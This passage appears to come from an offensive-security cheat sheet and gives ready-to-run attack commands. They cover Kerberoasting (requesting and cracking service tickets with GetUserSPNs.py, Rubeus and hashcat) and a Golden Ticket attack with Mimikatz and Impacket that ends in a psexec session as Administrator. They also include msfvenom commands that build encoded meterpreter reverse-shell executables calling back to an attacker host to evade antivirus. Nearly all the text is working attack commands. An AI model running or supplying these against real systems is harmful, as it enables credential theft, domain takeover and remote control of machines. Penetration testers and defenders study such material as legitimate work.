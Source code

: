 #### Kerberoasting
```bash
# Request service tickets
GetUserSPNs.py domain.com/user:password -dc-ip 10.10.10.10 -request

# Crack with Hashcat
hashcat -m 13100 kerberoast_hashes.txt rockyou.txt

# Using Rubeus (on Windows)
Rubeus.exe kerberoast /outfile:hashes.txt
```

#### Golden Ticket Attack
```bash
# Requirements:
# - KRBTGT hash
# - Domain SID
# - Domain name

# Using Mimikatz
kerberos::golden /user:Administrator /domain:domain.com /sid:S-1-5-21-... /krbtgt:hash /ptt

# Using Impacket
ticketer.py -nthash hash -domain-sid S-1-5-21-... -domain domain.com Administrator
export KRB5CCNAME=Administrator.ccache
psexec.py domain.com/Administrator@target -k -no-pass
```

---

## Antivirus Evasion Techniques

### Understanding AV Detection

**Detection Methods:**
1. **Signature-based** - Pattern matching against known malware
2. **Heuristic** - Behavioral analysis
3. **Sandboxing** - Execute in isolated environment
4. **Machine Learning** - AI-based detection

### Payload Encoding

#### MSFvenom Encoders
```bash
# Single encoder
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -f exe -o payload.exe

# Multiple iterations
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o payload.exe

# List available encoders
msfvenom -l encoders
```
